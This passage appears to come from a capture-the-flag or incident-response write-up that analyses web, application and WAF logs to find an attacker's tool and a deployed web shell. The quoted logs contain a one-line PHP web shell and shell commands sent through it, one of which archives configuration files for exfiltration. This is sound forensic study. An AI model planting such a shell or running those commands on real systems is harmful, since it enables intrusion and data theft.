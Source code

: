 Breaking it down:
Timestamp: 2025-05-01 08:23:12  
Source IP: 121.36.37.224 (attacker)  
Request: GET /robots.txt HTTP/1.1  
Response code: 200 (successful request)  
User-Agent: "Lilnunc/4A4D - SpecterEye"  

Since this is the earliest recorded request from the attacker, the User-Agent value clearly indicates the tool or script they were using.

Conclusion:  
```velocity
Lilnunc/4A4D - SpecterEye
```

---

## Question 2:  
It appears the threat actor deployed a web shell after bypassing the WAF. What is the file name? (filename.ext)

Log Analysis:
1. Application log evidence
In application.log, we see that the attacker successfully deployed a backdoor web shell:
```velocity
2025-05-15 11:25:01 [CRITICAL] webapp.api.v2.debug - Backdoor deployment initiated by 121.36.37.224 - command: 'echo "&lt;?php system($_GET["cmd"]); ?&gt;" > /var/www/html/uploads/temp_4A4D.php'
2025-05-15 11:25:12 [CRITICAL] webapp.api.v2.debug - Web shell created at /uploads/temp_4A4D.php by 121.36.37.224
```

This shows the exact filename and path of the malicious PHP web shell: `/uploads/temp_4A4D.php`

2. Access log confirmation
Later, the attacker starts interacting with the uploaded file:
```velocity
2025-05-18 15:02:12 121.36.37.224 "GET /uploads/temp_4A4D.php?cmd=ls -la /var/www/html/uploads/" ...
2025-05-18 15:02:23 121.36.37.224 "GET /uploads/temp_4A4D.php?cmd=whoami" ...
2025-05-18 15:02:34 121.36.37.224 "GET /uploads/temp_4A4D.php?cmd=tar -czf /tmp/exfil_4A4D.tar.gz /var/www/html/config/ /var/log/webapp/" ...
```

Here we clearly see the attacker executing system commands (ls, whoami, tar) through the PHP web shell.

3. WAF log observation
The WAF also detected this malicious activity but shows that the attacker bypassed protections:
```velocity
2025-05-15 11:25:12 [CRITICAL] waf.exec - IP 121.36.37.224 - Rule: WEBSHELL_DEPLOYMENT - Action: BYPASS - PHP web shell temp_4A4D.php created
```

Conclusion:  
```velocity
temp_4A4D.php
```

---
